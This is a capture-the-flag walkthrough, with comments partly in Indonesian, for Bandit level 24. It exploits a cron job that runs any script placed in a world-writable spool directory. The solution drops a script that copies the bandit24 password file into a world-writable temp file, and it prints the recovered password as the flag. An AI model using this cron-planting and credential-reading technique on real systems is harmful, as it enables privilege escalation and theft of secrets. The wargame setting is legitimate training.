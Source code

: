 ```yaml
---
layout: level
level: 24
previous: ./level 23.html
next: ./level 25.html
---
```


# soal
A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.

NOTE: This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level! \
NOTE 2: Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

# solve
- check cronjob file
    ```bash
    cd /etc/cron.d
    cat cronjob_bandit24
    # @reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
    # * * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
    ```

- check the file ````cat /usr/bin/cronjob_bandit24.sh```
    ```bash
    #!/bin/bash

    myname=$(whoami)

    cd /var/spool/$myname/foo
    echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
    for i in * .*;
    do
        if [ "$i" != "." -a "$i" != ".." ];
        then
            echo "Handling $i"
            owner="$(stat --format "%U" ./$i)"
            if [ "${owner}" = "bandit23" ]; then
                timeout -s 9 60 ./$i
            fi
            rm -f ./$i
        fi
    done

    # disini jika saya teliti di file ini akan pergi ke location folder tertentu dulu /var/spool/$myname/foo
    # setelah itu dia akan melakuakn looping pada semua file di dalamnya
    # dan akan mengekseskusinya dan setelah itu menghapusnya
    ```

- check the permissions
    ```bash
    ls -lad /var/spool/bandit24/foo
    # drwxrwx-wx 23 root bandit24 4096 Dec 10 09:52 /var/spool/bandit24/foo
    ls -la /var/spool/bandit24/foo
    # ls: cannot open directory '/var/spool/bandit24/foo': Permission denied

    ## kita tidak memiliki akses read pada folder namun kita memiliki akses write yang artinya
    ## kita bisa menaruh file di directory tersebut yang nantinya akan di eksekusi oleh cronjob
    ```

- try create file tmp for location pass
    ```bash
    echo -e "\n[+] output ----------" # debug
    workdir=$(mktemp -d)
    cd $workdir
    touch pass

    ls -lad $workdir
    # drwx------ 2 bandit23 bandit23 4096 Dec 10 09:57 /tmp/tmp.wp45LLE77H
    ## disini bisa kita lihat bahwa tmp tersebut tidak bisa di write jadi kita perlu mengubah permissions nya juga

    chmod -R 777 $workdir
    ls -lad $workdir
    # drwxrwxrwx 2 bandit23 bandit23 4096 Dec 10 09:57 /tmp/tmp.wp45LLE77H
    ls -la pass

    echo -e "\n[+] output ----------" # debug
    echo -e "[+] change the dir write for $(pwd)/pass" # debug
    ```

- try executable fro cat the pass
    ```bash
    cd /var/spool/bandit24/foo
    cat > cat_pass << EOF
    #!/bin/bash

    cat /etc/bandit_pass/bandit24 > # the path
    EOF

    ls -la cat_pass
    chmod 777 cat_pass
    cat $workdir/pass
    ```

- tunggu hingga file terhapus, dan pass terisi
    ```bash
    ls -la cat_pass
    # -rwxrwxrwx 1 bandit23 bandit23 81 Dec 10 10:17 cat_pass
    cat $workdir/pass

    ls -la cat_pass
    # ls: cannot access 'cat_pass': No such file or directory
    cat $workdir/pass
    # gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8

    ## jika masihh gagal kemungkinan kesalahan di permissions
    ## atau di location file
    ```

# flag
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8